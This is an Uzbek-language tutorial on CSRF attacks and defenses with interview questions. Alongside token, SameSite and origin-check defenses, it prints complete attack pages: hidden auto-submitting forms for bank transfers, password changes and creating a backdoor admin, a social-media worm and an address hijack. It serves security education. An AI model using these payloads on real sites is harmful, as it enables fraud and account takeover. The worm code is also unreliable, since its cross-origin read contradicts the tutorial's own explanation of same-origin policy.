

# CSRF (Cross-Site Request Forgery)

## Kirish

> [!IMPORTANT]
> **Nima uchun muhim?**  
> Foydalanuvchi joriy brauzerida saytingizga login qilganda, brauzer uning session cookielarini xotirasida saqlab qoladi. Endi bu foydalanuvchi boshqa bir zararli saytga (masalan, kinolarni bepul ko'rish saytiga) kirsa va u yerdagi biror tugmani bossa, u sahifa maxfiy ravishda sizning serveringizga so'rov yuborishi mumkin (masalan, "Parolni o'zgartirish" yoki "Pul o'tkazish" so'rovi). Brauzer bu so'rovga foydalanuvchining cookielarini avtomat ravishda qo'shib yuboradi! Server esa cookieni ko'rib, so'rovni foydalanuvchining o'zi yubordi deb o'ylab, uni amalga oshiradi. Bu **CSRF (Saytlararo so'rovlarni soxtalashtirish)** deb ataladi va unga qarshi choralarni bilish juda muhimdir.

> [!NOTE]
> **Real-hayot analogiyasi: "Sohibjamol va uning imzosi (Muhrlangan xat)"**  
> Tasavvur qiling, sizning shaxsiy dumaloq muhr-imzongiz (Cookie) bor va bank har doim bu muhr tushirilgan har qanday to'lov topshiriqnomasini qabul qiladi.  
> - **CSRF (Aldov):** Bir kun xizmatingizda yurgan yaramas odam (Attacker) sizga chiroyli rasm ko'rsatdi. Rasmning orqasiga esa "Attacker hisobiga $1000 pul o'tkazilsin" degan matn yozilgan edi va siz bilmasdan rasm ustiga muhr bosdingiz. U odam bu xatni bankka olib bordi, bank muhrni ko'rib pulni o'tkazib yubordi. Siz esa aldandingiz!
> - **CSRF Token (Maxfiy so'z):** Bank endi faqat muhrga qarab ish bitirmaydi. Har safar pul o'tkazmoqchi bo'lsangiz, bank sizga bir martalik maxfiy kod (CSRF Token) beradi. Xat yuborilganda ham muhr (Cookie), ham o'sha bir martalik maxfiy kod (Token) birgalikda taqdim etilishi shart. O'g'ri esa bu maxfiy kodni bilmaydi!

---

## CSRF Nima?

CSRF (Cross-Site Request Forgery) - bu hujumchi victim brauzerini ishlatib, victim nomidan boshqa saytga so'rov yuboradigan hujum turi.

### CSRF vs XSS Taqqoslovi

| Kriteriya | CSRF | XSS |
| --- | --- | --- |
| **Hujum maqsadi** | So'rovni soxtalashtirish (Request forgery) | Zararli skript yuborish (Script injection) |
| **Nishon** | Foydalanuvchi sessiyasidan foydalanadi | Foydalanuvchi brauzerini nishonga oladi |
| **Imkoniyatlari** | Faqat oldindan belgilangan so'rovlarni qiladi | Istalgan JavaScript kodini ishga tushiradi |
| **Ishonch (Trust)** | Server foydalanuvchi brauzeriga ishonadi | Brauzer serverdan kelgan kontentga ishonadi |
| **Aloqa turi** | Bir tomonlama ("Ot va unut" so'rovlari) | Ikki tomonlama (o'qish va yozish imkoniyati) |
| **Response (Javob)** | Hujumchi server javobini ko'ra olmaydi | Hujumchi hamma narsani o'qiy oladi |

### Key Concepts

```
Same-Origin Policy (SOP):
  - JavaScript boshqa origin'dan response O'QIY OLMAYDI
  - Lekin request YUBORISHI mumkin
  - Bu CSRF'ning asosiy sababi

CSRF Attack:
  - Hujumchi victim brauzerini request yuborishga majbur qiladi
  - Brauzer avtomatik cookie yuboradi
  - Server cookie'ni ko'rib request'ni qabul qiladi
  - Hujumchi response'ni o'qiy olmaydi, lekin action amalga oshadi
```

---

## CSRF Mexanizmi

### CSRF Hujumining Ketma-ketligi (Attack Flow)



### Why It Works

```javascript
// Browser behavior:
// 1. Form submit har qanday origin'ga bo'lishi mumkin
// 2. Cookie mos domain'ga AVTOMATIK yuboriladi
// 3. Server faqat cookie'ni tekshiradi

// Zaif server code:
app.post('/transfer', (req, res) => {
  // Cookie bor - user authenticated deb o'ylaydi
  if (req.session.userId) {
    transfer(req.body.to, req.body.amount);
    res.json({ success: true });
  }
});

// Server bilmaydi:
// - Request user'ning o'zi yubordi yoki attacker page'dan keldi
// - Cookie valid = request valid deb o'ylaydi
```

---

## Attack Patterns

### 1. Hidden Form Auto-Submit

```html
<!-- attacker.com sahifasida -->

<!-- Yashirin form -->
<form id="csrf-form" action="https://bank.com/transfer" method="POST" style="display:none">
  <input name="to" value="attacker_account">
  <input name="amount" value="10000">
</form>

<script>
  // Avtomatik submit
  document.getElementById('csrf-form').submit();
</script>

<!-- Victim bu sahifani ochganda:
     1. Form bank.com'ga submit bo'ladi
     2. Browser bank.com cookie'larini yuboradi
     3. Transfer amalga oshadi
-->
```

### 2. Image Tag (GET Requests)

```html
<!-- GET request'lar uchun (agar server GET qabul qilsa) -->

<!-- Invisible image -->


<!-- Zero-size image -->


<!-- Background image -->
<div style="background:url('https://bank.com/change-email?email=attacker@evil.com')"></div>
```

### 3. AJAX (Limited by CORS)

```javascript
// SOP tufayli response o'qib bo'lmaydi
// Lekin "simple" request yuboriladi

// Simple request (no preflight)
fetch('https://bank.com/transfer', {
  method: 'POST',
  mode: 'no-cors',  // Response o'qish kerak emas
  body: new URLSearchParams({
    to: 'attacker',
    amount: '10000'
  }),
  credentials: 'include'  // Cookies yuborish
});

// Content-Type cheklovi:
// - application/x-www-form-urlencoded
// - multipart/form-data
// - text/plain
// Bular preflight qilmaydi = CSRF mumkin
```

### 4. Iframe Injection

```html
<!-- Yashirin iframe -->
<iframe name="csrf-frame" style="display:none"></iframe>

<form action="https://bank.com/transfer" method="POST" target="csrf-frame">
  <input name="to" value="attacker">
  <input name="amount" value="10000">
</form>

<script>
  document.forms[0].submit();
</script>

<!-- Iframe'ga redirect - user ko'rmaydi -->
```

### 5. JSON Endpoint Attack

```html
<!-- JSON API himoyasi bypass attempt -->

<!-- text/plain content-type (no preflight) -->
<form action="https://api.bank.com/transfer" method="POST" enctype="text/plain">
  <input name='{"to":"attacker","amount":"10000","ignore":"' value='"}'>
</form>

<!-- Yuboriladi:
     {"to":"attacker","amount":"10000","ignore":"="}
     Content-Type: text/plain
     Server JSON parse qilsa - ishlaydi
-->
```

### 6. Flash/Silverlight (Legacy)

```actionscript
// Flash orqali custom headers yuborish (eski)
// URLRequest bilan arbitrary headers

// Bugun BLOCKED:
// - Flash deprecated
// - crossdomain.xml policy
// - Modern browsers Flash'ni qo'llab-quvvatlamaydi
```

---

## Zaif vs Xavfsiz Kod

### 1. Missing CSRF Token

```javascript
// ❌ ZAIF: CSRF token yo'q
app.post('/transfer', (req, res) => {
  // Faqat session tekshirish - YETARLI EMAS
  if (req.session.userId) {
    const { to, amount } = req.body;
    performTransfer(req.session.userId, to, amount);
    res.json({ success: true });
  }
});

// ✅ XAVFSIZ: CSRF token bilan
const csrf = require('csurf');
app.use(csrf({ cookie: true }));

app.get('/transfer-form', (req, res) => {
  res.render('transfer', { csrfToken: req.csrfToken() });
});

app.post('/transfer', (req, res) => {
  // csurf middleware CSRF token'ni tekshiradi
  if (req.session.userId) {
    performTransfer(req.session.userId, req.body.to, req.body.amount);
    res.json({ success: true });
  }
});
```

### 2. GET for State Changes

```javascript
// ❌ ZAIF: GET bilan state o'zgartirish
app.get('/delete-account', (req, res) => {
  deleteAccount(req.session.userId);
  res.redirect('/goodbye');
});

// Hujum: 
// User sahifani ochganda account o'chadi

// ✅ XAVFSIZ: POST bilan + CSRF token
app.post('/delete-account', csrfProtection, (req, res) => {
  // POST request + CSRF token kerak
  deleteAccount(req.session.userId);
  res.redirect('/goodbye');
});
```

### 3. Missing SameSite Cookie

```javascript
// ❌ ZAIF: SameSite yo'q
res.cookie('session', sessionId, {
  httpOnly: true,
  secure: true
  // SameSite yo'q - cross-site request'da yuboriladi
});

// ✅ XAVFSIZ: SameSite bilan
res.cookie('session', sessionId, {
  httpOnly: true,
  secure: true,
  sameSite: 'strict'  // yoki 'lax'
});

// SameSite=Strict:
// - Cross-site request'da cookie yuborilMAYDI
// - CSRF to'liq bloklangan
// - Muammo: tashqi linkdan kelganda logout

// SameSite=Lax (recommended):
// - Top-level GET navigation'da yuboriladi
// - POST/fetch'da yuborilmaydi
// - Balance: UX + security
```

### 4. Predictable Token

```javascript
// ❌ ZAIF: Predictable CSRF token
const csrfToken = userId + '_' + Date.now();  // Guess qilish mumkin
const csrfToken = md5(sessionId);              // Session bilsa - token biladi

// ✅ XAVFSIZ: Cryptographically random
const crypto = require('crypto');
const csrfToken = crypto.randomBytes(32).toString('hex');

// Session'ga bog'lash
req.session.csrfToken = csrfToken;

// Verify
if (req.body._csrf !== req.session.csrfToken) {
  return res.status(403).json({ error: 'Invalid CSRF token' });
}
```

### 5. Token in URL

```javascript
// ❌ ZAIF: CSRF token URL'da
<a href="/transfer?csrf_token=abc123&to=friend&amount=100">Transfer</a>

// Muammo:
// - Referer header'da visible
// - Browser history'da saqlanadi
// - Link share qilinganda token ham yuboriladi

// ✅ XAVFSIZ: Token form/header'da
<form method="POST" action="/transfer">
  <input type="hidden" name="_csrf" value="abc123">
  <input name="to" value="friend">
  <input name="amount" value="100">
  <button type="submit">Transfer</button>
</form>
```

### 6. No Origin Validation

```javascript
// ❌ ZAIF: Origin tekshirilmaydi
app.post('/api/transfer', (req, res) => {
  // Har qanday origin'dan request qabul qiladi
  performTransfer(req.body);
});

// ✅ XAVFSIZ: Origin/Referer tekshirish
app.post('/api/transfer', (req, res) => {
  const origin = req.headers.origin || req.headers.referer;
  const allowedOrigins = ['https://myapp.com', 'https://www.myapp.com'];

  if (!origin || !allowedOrigins.some(o => origin.startsWith(o))) {
    return res.status(403).json({ error: 'Invalid origin' });
  }

  performTransfer(req.body);
});
```

---

## Real Attack Scenarios

### Scenario 1: Bank Transfer

```html
<!-- attacker.com -->
<!DOCTYPE html>
<html>
<head>
  <title>You Won a Prize!</title>
</head>
<body>
  <h1>Congratulations! Click below to claim your $1000 gift card!</h1>

  <!-- Yashirin CSRF attack -->
  <iframe name="csrf-frame" style="display:none"></iframe>

  <form id="csrf" action="https://bank.example.com/transfer" method="POST" target="csrf-frame">
    <input type="hidden" name="recipient" value="attacker_account_12345">
    <input type="hidden" name="amount" value="5000">
    <input type="hidden" name="memo" value="Gift">
  </form>

  <script>
    // Sahifa yuklanganda avtomatik submit
    document.getElementById('csrf').submit();
  </script>

  <button onclick="alert('Processing...')">Claim Prize</button>
</body>
</html>
```

### Scenario 2: Password Change

```html
<!-- Forum comment'da yoki email'da link -->
<!-- Click qilganda password o'zgaradi -->

<a href="https://site.com/change-password?new=hacked123">
  Check out this cool article!
</a>

<!-- Yoki auto-submit -->
<body onload="document.forms[0].submit()">
  <form action="https://site.com/account/password" method="POST">
    <input name="password" value="attacker_password">
    <input name="confirm" value="attacker_password">
  </form>
</body>
```

### Scenario 3: Admin Action

```html
<!-- Admin email'iga yuborilgan "urgent" link -->

<html>
<body>
  <h2>Urgent Security Update Required!</h2>
  <p>Your admin panel has a critical vulnerability. Click below to patch:</p>

  <!-- Yashirin admin action -->
  <form id="csrf" action="https://admin.company.com/users/create" method="POST">
    <input name="username" value="backdoor_admin">
    <input name="password" value="attacker_pass123">
    <input name="role" value="super_admin">
    <input name="email" value="attacker@evil.com">
  </form>

  <script>document.getElementById('csrf').submit();</script>

  <a href="https://admin.company.com/security-patch">
    Apply Security Patch
  </a>
</body>
</html>

<!-- Admin bu email'ni ochganda:
     1. Backdoor admin account yaratiladi
     2. Attacker admin panel'ga kiradi
-->
```

### Scenario 4: Social Media Worm

```html
<!-- Social media CSRF worm -->
<!-- User profile'ga post qo'shadi va o'zini tarqatadi -->

<script>
  // CSRF orqali post yaratish
  const form = document.createElement('form');
  form.action = 'https://social.com/api/post';
  form.method = 'POST';
  form.innerHTML = `
    <input name="content" value="Check this out! [malicious link]">
  `;
  document.body.appendChild(form);
  form.submit();

  // Barcha friends'ga message
  fetch('https://social.com/api/friends')
    .then(r => r.json())
    .then(friends => {
      friends.forEach(friend => {
        const msgForm = document.createElement('form');
        msgForm.action = 'https://social.com/api/message';
        msgForm.method = 'POST';
        msgForm.innerHTML = `
          <input name="to" value="${friend.id}">
          <input name="message" value="Hey! Check this: [link to this page]">
        `;
        document.body.appendChild(msgForm);
        msgForm.submit();
      });
    });
</script>
```

### Scenario 5: E-commerce Attack

```html
<!-- E-commerce saytida shipping address o'zgartirish -->

<body onload="attack()">
<script>
async function attack() {
  // 1. Shipping address o'zgartirish
  const addressForm = document.createElement('form');
  addressForm.action = 'https://shop.com/account/address';
  addressForm.method = 'POST';
  addressForm.innerHTML = `
    <input name="street" value="123 Attacker Street">
    <input name="city" value="Evil City">
    <input name="zip" value="66666">
    <input name="country" value="XX">
  `;
  document.body.appendChild(addressForm);
  addressForm.submit();

  // 2. Payment method o'zgartirish (agar mumkin bo'lsa)
  // 3. Order yaratish

  // Victim'ning keyingi buyurtmasi attackerga yuboriladi
}
</script>
</body>
```

---

## Defense Strategies

### 1. Synchronizer Token Pattern

```javascript
// Server-side (Express)
const crypto = require('crypto');

// Token generatsiya
const generateCsrfToken = () => {
  return crypto.randomBytes(32).toString('hex');
};

// Middleware
const csrfProtection = (req, res, next) => {
  if (['GET', 'HEAD', 'OPTIONS'].includes(req.method)) {
    return next();
  }

  const tokenFromRequest = req.body._csrf ||
                           req.query._csrf ||
                           req.headers['x-csrf-token'];

  if (!tokenFromRequest || tokenFromRequest !== req.session.csrfToken) {
    return res.status(403).json({ error: 'Invalid CSRF token' });
  }

  next();
};

// Routes
app.get('/form', (req, res) => {
  // Token generatsiya va session'ga saqlash
  const token = generateCsrfToken();
  req.session.csrfToken = token;

  res.render('form', { csrfToken: token });
});

app.post('/submit', csrfProtection, (req, res) => {
  // Token valid - safe to proceed
  processForm(req.body);
});
```

```html
<!-- Client-side -->
<form method="POST" action="/submit">
  <input type="hidden" name="_csrf" value="{{csrfToken}}">
  <input name="data" type="text">
  <button type="submit">Submit</button>
</form>
```

### 2. Double Submit Cookie

```javascript
// Server
app.use((req, res, next) => {
  if (!req.cookies.csrfToken) {
    const token = crypto.randomBytes(32).toString('hex');
    res.cookie('csrfToken', token, {
      httpOnly: false,  // JS o'qishi kerak
      secure: true,
      sameSite: 'strict'
    });
  }
  next();
});

const csrfProtection = (req, res, next) => {
  if (['GET', 'HEAD', 'OPTIONS'].includes(req.method)) {
    return next();
  }

  const cookieToken = req.cookies.csrfToken;
  const headerToken = req.headers['x-csrf-token'];

  // Cookie va header bir xil bo'lishi kerak
  if (!cookieToken || cookieToken !== headerToken) {
    return res.status(403).json({ error: 'CSRF validation failed' });
  }

  next();
};
```

```javascript
// Client-side
const csrfToken = document.cookie
  .split('; ')
  .find(row => row.startsWith('csrfToken='))
  ?.split('=')[1];

fetch('/api/transfer', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'X-CSRF-Token': csrfToken  // Cookie qiymatini header'da yuborish
  },
  body: JSON.stringify({ to: 'friend', amount: 100 }),
  credentials: 'include'
});

// Attacker cookie'ni o'qiy olmaydi (SOP)
// Shuning uchun to'g'ri header yuborolmaydi
```

### 3. SameSite Cookies

```javascript
// Modern approach - SameSite cookie
app.use(session({
  cookie: {
    httpOnly: true,
    secure: true,
    sameSite: 'strict',  // CSRF to'liq bloklash
    // yoki 'lax' - GET navigation'da yuboriladi
  }
}));

// SameSite=Strict bilan CSRF deyarli mumkin emas
// Lekin defense-in-depth uchun CSRF token ham qo'shing
```

### 4. Custom Request Headers

```javascript
// Server - custom header talab qilish
const csrfProtection = (req, res, next) => {
  // fetch/XMLHttpRequest custom header qo'sha oladi
  // Form submit QO'SHOLMAYDI
  // Shuning uchun custom header bormi - safe

  if (!req.headers['x-requested-with']) {
    return res.status(403).json({ error: 'Missing required header' });
  }

  next();
};

// Client
fetch('/api/action', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/json',
    'X-Requested-With': 'XMLHttpRequest'
  },
  body: JSON.stringify(data)
});

// Muammo: CORS preflight kerak bo'lishi mumkin
```

### 5. Origin Validation

```javascript
// Origin/Referer tekshirish
const validateOrigin = (req, res, next) => {
  const origin = req.headers.origin;
  const referer = req.headers.referer;

  const allowedOrigins = [
    'https://myapp.com',
    'https://www.myapp.com'
  ];

  // Origin header (CORS request'larda)
  if (origin && !allowedOrigins.includes(origin)) {
    return res.status(403).json({ error: 'Invalid origin' });
  }

  // Referer header (agar origin yo'q bo'lsa)
  if (!origin && referer) {
    const refererOrigin = new URL(referer).origin;
    if (!allowedOrigins.includes(refererOrigin)) {
      return res.status(403).json({ error: 'Invalid referer' });
    }
  }

  // Ikkisi ham yo'q - suspicious, lekin ba'zi legitimate case'lar bor
  // Privacy extension'lar Referer'ni o'chirishi mumkin

  next();
};
```

### 6. Framework-Specific Solutions

```javascript
// Express + csurf
const csurf = require('csurf');
app.use(csurf({ cookie: true }));

// Django - built-in
//  template tag
// @csrf_protect decorator

// Rails - built-in
// protect_from_forgery with: :exception
// <%= csrf_meta_tags %>

// Laravel - built-in
// @csrf directive
// VerifyCsrfToken middleware

// Next.js
// next-csrf package
// API routes'da manual tekshirish
```

### 7. Security Checklist

```
□ CSRF token implemented (synchronizer or double-submit)
□ SameSite cookie attribute set (Strict or Lax)
□ State-changing operations use POST/PUT/DELETE (not GET)
□ Origin/Referer validation for sensitive endpoints
□ Custom request header validation for APIs
□ Token regeneration after login
□ Secure token storage (session, not URL)
□ Token verification on all state-changing requests
□ CORS properly configured
□ Regular security audits
```

---

## Interview Savollari

### 1. CSRF nima va qanday ishlaydi?

**Javob:**

CSRF - bu hujumchi victim brauzerini ishlatib, victim nomidan boshqa saytga so'rov yuboradigan hujum.

**Qanday ishlaydi:**
1. Victim `bank.com`ga login qilgan (session cookie bor)
2. Victim `attacker.com` sahifasini ochadi
3. `attacker.com`da yashirin form bor:
```html
<form action="bank.com/transfer" method="POST">
  <input name="to" value="attacker">
  <input name="amount" value="10000">
</form>
<script>form.submit()</script>
```
4. Browser `bank.com`ga request yuboradi
5. Browser avtomatik `bank.com` cookie'sini qo'shadi
6. Server cookie'ni ko'rib request'ni bajaradi
7. Pul attacker'ga o'tkaziladi

**Nima uchun ishlaydi:**
- Browser cookie'larni mos domain'ga AVTOMATIK yuboradi
- Server request qayerdan kelganini bilmaydi
- Faqat cookie valid bo'lsa - request valid deb o'ylaydi

---

### 2. CSRF va XSS farqi nima?

**Javob:**

| Aspect | CSRF | XSS |
|--------|------|-----|
| Hujum turi | Request forgery | Code injection |
| Maqsad | Action bajarish | Data o'g'irlash + action |
| Response | O'qiy olmaydi | O'qiy oladi |
| Scope | Predefined action'lar | To'liq JS control |
| Cookie | Avtomatik yuboriladi | O'qiy oladi (HttpOnly emas) |

**Misol:**
- **CSRF:** Victim nomidan pul o'tkazish (transfer action)
- **XSS:** Cookie o'g'irlash + pul o'tkazish + keylogging + phishing

**XSS > CSRF** - XSS topilsa, CSRF himoyalari bypass qilinishi mumkin

---

### 3. SameSite cookie attribute CSRF'dan qanday himoya qiladi?

**Javob:**

SameSite cookie'ning cross-site request'larda yuborilishini boshqaradi:

**SameSite=Strict:**
```javascript
res.cookie('session', value, { sameSite: 'strict' });
```
- Cross-site request'da cookie YUBORILMAYDI
- Attacker form submit qilganda cookie yo'q = CSRF blocked
- Muammo: tashqi linkdan kelganda ham yuborilmaydi (UX)

**SameSite=Lax:**
```javascript
res.cookie('session', value, { sameSite: 'lax' });
```
- Top-level GET navigation'da yuboriladi
- POST, fetch, iframe'da yuborilMAYDI
- Yaxshi balance: security + UX

**Nima uchun ishlaydi:**
- CSRF odatda POST request
- SameSite=Lax POST'da cookie yuborMAYDI
- Server session ko'rmaydi = request rejected

---

### 4. Synchronizer Token Pattern qanday ishlaydi?

**Javob:**

**Mexanizm:**
1. Server random token generatsiya qiladi
2. Token session'da saqlanadi
3. Token form'da hidden field sifatida yuboriladi
4. Server token'ni session bilan solishtiradi

```javascript
// Server
app.get('/form', (req, res) => {
  const token = crypto.randomBytes(32).toString('hex');
  req.session.csrfToken = token;
  res.render('form', { csrfToken: token });
});

app.post('/submit', (req, res) => {
  if (req.body._csrf !== req.session.csrfToken) {
    return res.status(403).send('Invalid CSRF token');
  }
  // Process request
});
```

```html
<!-- Form -->
<input type="hidden" name="_csrf" value="{{csrfToken}}">
```

**Nima uchun ishlaydi:**
- Attacker token'ni bilmaydi (same-origin policy)
- Form'da to'g'ri token bo'lmasa - request rejected
- Token random, predict qilib bo'lmaydi

---

### 5. Double Submit Cookie pattern nima?

**Javob:**

**Mexanizm:**
1. CSRF token cookie'da saqlanadi (httpOnly=false)
2. Client cookie'ni o'qib, header/form'da yuboradi
3. Server cookie va header/form qiymatini solishtiradi

```javascript
// Server
res.cookie('csrf', token, { httpOnly: false, sameSite: 'strict' });

// Verification
if (req.cookies.csrf !== req.headers['x-csrf-token']) {
  return res.status(403).send('Invalid');
}
```

```javascript
// Client
const token = document.cookie.match(/csrf=([^;]+)/)[1];
fetch('/api', {
  headers: { 'X-CSRF-Token': token }
});
```

**Nima uchun ishlaydi:**
- Attacker cookie'ni O'QIY OLMAYDI (same-origin policy)
- To'g'ri header yuborolmaydi
- Cookie avtomatik yuboriladi, lekin header qiymati noto'g'ri

**Afzalligi:**
- Stateless (session kerak emas)
- Distributed systems (tarqoq tizimlar) uchun yaxshi

---

## Eng Yaxshi Amaliyotlar (Best Practices)

1. **SameSite cookie atributlaridan foydalaning:** Cookie orqali autentifikatsiyani amalga oshirayotganda SameSite atributini `Lax` yoki `Strict` deb belgilash ko'plab CSRF xavflarini butunlay bartaraf etadi.
2. **Kliyent va Server orasida CSRF Token qo'shing:** Agar siz SameSite dan to'liq foydalana olmasangiz (eski brauzerlar tufayli) yoki qo'shimcha xavfsizlik zarur bo'lsa, har bir o'zgarish qiluvchi so'rovda (`POST`, `PUT`, `DELETE`) server tomonidan berilgan bir martalik **CSRF Token** ni headers (masalan, `X-CSRF-Token`) orqali yuborishni va uni serverda tekshirishni yo'lga qo'ying.
3. **Safe va Unsafe metodlarni ajrating:** GET, HEAD, OPTIONS kabi metodlar serverda holatni o'zgartirmasligi (safe) shart. Hech qachon `GET` so'rovi orqali ma'lumotni o'chirish yoki tahrirlash kabi ishlarni bajarmang.

---

## Xulosa

CSRF xavfsizligi bo'yicha yakuniy xulosa:

| Himoya Usuli | Qanday ishlaydi | Afzalligi | Kamchiligi |
| --- | --- | --- | --- |
| **SameSite Cookie** | Brauzer boshqa saytlardan kelgan so'rovlarga cookie qo'shmaydi | Nol konfiguratsiya (brauzer bajaradi) | Eski brauzerlarda ishlamasligi mumkin |
| **CSRF Token** | Har bir request bilan bir martalik maxfiy token yuboriladi | Juda xavfsiz va ishonchli | Serverda token holatini saqlash kerak (stateful) |
| **Double Submit Cookie**| Token ham cookie, ham headerda yuborilib solishtiriladi | Stateless (serverda xotira talab qilmaydi) | Subdomenlar buzilsa, cookie yozib yuborilishi mumkin |
